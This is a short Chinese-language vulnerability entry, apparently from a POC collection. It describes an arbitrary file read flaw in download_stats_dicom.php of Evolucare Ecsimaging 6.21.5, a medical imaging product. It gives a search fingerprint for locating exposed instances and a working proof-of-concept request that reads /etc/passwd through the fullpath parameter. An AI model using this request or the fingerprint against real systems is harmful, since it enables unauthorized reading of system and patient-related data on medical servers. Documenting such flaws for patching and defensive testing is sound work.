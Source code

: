 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 6.21.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c-20220313153823825.png)

验证POC

```javascript
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645546522769-c4a3e88c-e234-49f9-b1f6-2d49742683b0.png)